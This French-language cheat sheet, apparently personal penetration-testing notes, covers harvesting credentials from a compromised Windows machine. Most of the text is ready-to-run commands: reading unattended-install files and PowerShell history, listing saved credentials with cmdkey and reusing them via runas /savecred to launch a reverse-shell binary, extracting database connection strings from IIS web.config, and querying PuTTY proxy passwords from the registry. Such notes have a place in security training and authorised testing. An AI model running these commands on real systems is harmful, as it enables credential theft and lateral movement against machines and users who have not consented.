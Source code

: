 > Récolter des mots de passe à partir d'endroits habituels

Le moyen le plus simple d’accéder à un autre utilisateur consiste à collecter les informations d’identification d’une machine compromise.

---
# Unattended Windows Installations
Installations Windows sans surveillance
Dans ces fichiers, ont peut rencontrer des informations d'identification

```c
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

---
# Powershell History

Chaque fois qu'un utilisateur exécute une commande à l'aide de Powershell, elle est stockée dans un fichier qui conserve la mémoire des commandes passées.

```c
#cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```c
#powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

---
# Saved Windows Credentials 
Informations d'identification Windows enregistrées

Afficher les informations d'identification enregistrées :

```c
cmdkey /list
```

Bien qu'on ne peut pas voir les mots de passe réels, si vous remarquez des informations d'identification qui valent la peine d'être essayées `Type: Domaine Password`, vous pouvez les utiliser suivante :

```c
runas /savecred /user:{USERNAME_NAME} cmd.exe
```

```c
runas /savecred /user:{USERNAME_NAME} C:\Temp\rshel.exe
```

---
# IIS Configuration

Selon la version installée d'IIS, nous pouvons trouver web.config dans l'un des emplacements suivants :

```c
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Trouver les chaînes de connexion à la base de données sur le fichier :

```c
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

---
# Retrieve Credentials from Software: PuTTY 
Récupérer les informations d'identification à partir du logiciel : PuTTY
Stock les configurations de proxy qui incluent les informations d'authentification en texte clair.

```c
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Utiliser aussi le [[Dumping Browsers Credentails]]

